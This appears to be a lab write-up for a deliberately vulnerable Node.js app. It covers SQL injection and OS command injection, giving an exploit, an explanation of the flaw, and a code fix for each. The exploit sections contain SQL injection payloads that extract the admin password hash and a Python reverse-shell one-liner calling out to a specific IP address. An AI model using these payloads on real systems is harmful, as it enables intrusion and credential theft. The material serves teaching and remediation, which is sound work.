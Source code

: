 # sql Injection
## Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```


---
## The Vulnerability 
~~~
No input validation or sanitization for user controlled inputs
~~~

`db.sequelize.query` is a method in the Sequelize ORM (Object-Relational Mapping) library for Node.js that can be used to execute raw SQL queries against a database.

By default, db.sequelize.query will use parameterized queries, meaning that any input values will be automatically escaped and treated as parameters rather than being concatenated into the SQL string. This helps to prevent SQL injection attacks and makes the query more efficient, as the database can cache the execution plan for the query.

However, it is possible to disable parameterization and use raw SQL queries by passing the `raw: true` option to the db.sequelize.query method. In this case, you should be careful to manually escape any input values to prevent SQL injection vulnerabilities.


You can check if the raw option is set to true or not by looking at the second parameter of the db.sequelize.query method.

If the second parameter is an object that contains a raw property set to true, then the query is a raw SQL query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464025-25a66d2b-685f-4b6f-bb59-1ab16c589e38.png)

On the other hand, if the second parameter is not an object, or if it is an object that does not contain a raw property set to true, then the query is a parameterized query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464100-51b4295b-3303-4966-9574-53301f8906e8.png)




## The fix

We can use `model's` `find` function and rely on in-built input sanitization of sequelize.

### Edits to the `core\appHandler.js`

```js
module.exports.userSearch = function (req, res) {
//Comment out the following lines 
	//var query = "SELECT name,id FROM Users WHERE login='" + req.body.login + "'";
	//db.sequelize.query(query, {
	//	model: db.User
	//}).then(user => {
	//	if (user.length) {
		db.User.find({where:{'login':req.body.login}}).then(user => {
			if (user) {
			var output = {
				user: {
					//name: user[0].name,
					//id: user[0].id
					name: user.name,
					id: user.id
				}
			}
			res.render('app/usersearch', {
				output: output
			})
		} else {
			req.flash('warning', 'User not found')
			res.render('app/usersearch', {
				output: null
			})
		}
	}).catch(err => {
		//req.flash('danger', 'Internal Error')
		req.flash('yei', 'Fixed it')
		res.render('app/usersearch', {
			output: null
		})
	})
}
```


---

<br><br>

# OS Command Injection

## Exploiting
##### Intended behaviour
```
Enter a valid IP
8.8.8.8
```
##### Exploiting by appending a OS command 
```
# List the files
8.8.8.8, ls

# Get the effective username of the current user when invoked
8.8.8.8, whoami
```

##### Getting a reverse shell
```
# Start a listener on your public IP
nc -nlvp 4444

# Run the following in vulnerable app function
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.66.98",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```


### Vulnerability 

~~~
'exec' method can execute arbitrary OS commands
~~~


### The fix

~~~
We can use `exec_file` or `spawn` method under child_process which will prevent arbitrary command execution.
~~~

### Edits to the `core\appHandler.js`

```js
// Remove the following line or replace 'exec' with 'execFile'
const exec = require('child_process').exec;

// Add the follwing line 
const execFile = require('child_process').execFile;
```

Then 
```js
// Remove/Replace the line 
exec('ping -c 2 ' + req.body.address, function (err, stdout, stderr) {

// Add the line
execFile('ping', ['-c', '2', req.body.address] , function(err,stdout,stderr){
```



